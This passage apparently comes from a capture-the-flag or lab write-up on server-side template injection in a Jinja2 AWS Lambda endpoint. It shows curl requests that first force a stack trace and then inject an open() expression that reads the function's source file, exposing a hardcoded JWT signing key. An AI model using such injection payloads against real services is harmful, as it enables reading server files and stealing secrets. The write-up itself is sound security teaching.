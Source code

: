 ```bash
$ curl -s https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wx01 -X POST -d '{"action":"help","email":"{{}}"}' | json_pp
{
   "errorMessage" : "Expected an expression, got 'end of print statement'",
   "errorType" : "TemplateSyntaxError",
   "stackTrace" : [
      "  File \"/var/task/lambda_function.py\", line 64, in lambda_handler\n    'body': handle(event)\n",
      "  File \"/var/task/lambda_function.py\", line 52, in handle\n    res = getHelp(event)\n",
      "  File \"/var/task/lambda_function.py\", line 18, in getHelp\n    msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, open=open)\n",
      "  File \"/var/task/jinja2/environment.py\", line 1031, in __new__\n    return env.from_string(source, template_class=cls)\n",
      "  File \"/var/task/jinja2/environment.py\", line 941, in from_string\n    return cls.from_code(self, self.compile(source), globals, None)\n",
      "  File \"/var/task/jinja2/environment.py\", line 638, in compile\n    self.handle_exception(source=source_hint)\n",
      "  File \"/var/task/jinja2/environment.py\", line 832, in handle_exception\n    reraise(*rewrite_traceback_stack(source=source))\n",
      "  File \"/var/task/jinja2/_compat.py\", line 28, in reraise\n    raise value.with_traceback(tb)\n",
      "  File \"<unknown>\", line 3, in template\n"
   ]
}
```

If we look at this line in the response:

```bash
"  File \"/var/task/lambda_function.py\", line 18, in getHelp\n    msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, open=open)\n"
```

We can see the `open` function is available for use. We know the file is `/var/task/lambda_function.py` based on the error outputs, so let's try to use the `open` function to read the source code.

```bash
$ curl -s https://6feducn4d2.execute-api.eu-west-1.amazonaws.com/stag/wx01 -X POST -d '{"action":"help","email":"{{open(\"/var/task/lambda_function.py\").read()}}"}' | json_pp
{
   "body" : "\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: from jinja2 import Template\nimport json\nimport urllib\nimport jwt\nimport os\n\n# JWT Key\nkey = \"aversion-chute-freeway-corporal\"\nalgo = \"HS256\"\n\ndef getHelp(event):\n    email = ''.join(event['email'])\n    template = \"\"\"\n    <p>Your request has been submitted.</p>\n    <p>You will receive an email at: %s</p>\n    <p>This might take a reaaaaaaally long time though (forever).</p>\n    \"\"\" % (urllib.parse.unquote(email).replace(\"<\", \"&lt;\").replace(\">\", \"&gt;\"))\n    msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, open=open)\n    msg = msg[:-len(msg)+700]\n    return msg\n\ndef login(event)",
   "statusCode" : 200
}
```

Here's a cleaned up version of the body text:
